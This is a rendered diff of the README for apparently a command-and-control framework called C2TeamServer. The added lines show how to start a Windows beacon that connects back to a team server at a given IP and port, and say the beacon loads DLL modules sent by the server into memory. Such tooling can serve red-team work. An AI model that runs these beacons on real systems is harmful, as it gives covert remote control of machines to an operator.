

Before and after one commit to maxDcb/C2TeamServer, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; pictures changed too: images/NewSession.png (added), images/SessionInteract.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -38,6 +49,16 @@ python3 GUI.py
 Winodws Beacons and command modules are compiled separately in another [project](https://github.com/maxDcb/C2Implant), but a compiled version is provided in ./Release/Beacons and ./Release/Modules to be able to use it directly.
 
 ![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ReleaseModulesBeacons.png?raw=true)
+
+```
+.\BeaconHttp.exe 10.10.52.5 8443 https
+```
+
+When the Beacon is started and connect to the TeamServer, a new session is started from where you can interact with the Beacon:
+
+![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/NewSession.png?raw=true)
+
+![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/SessionInteract.png?raw=true)
 
 Windows beacon uses primarily windows API and start with no module loaded. Modules are loaded at runtime using "MemoryModule" project to load DLL sent by the TeamServer to the beacon.
 
````
Also changed, not shown: other parts of README.md (+11 -0 lines), images/AddListener.png (added), images/AddListenerTypes.png (added), images/Listeners.png (added), 2 other files.
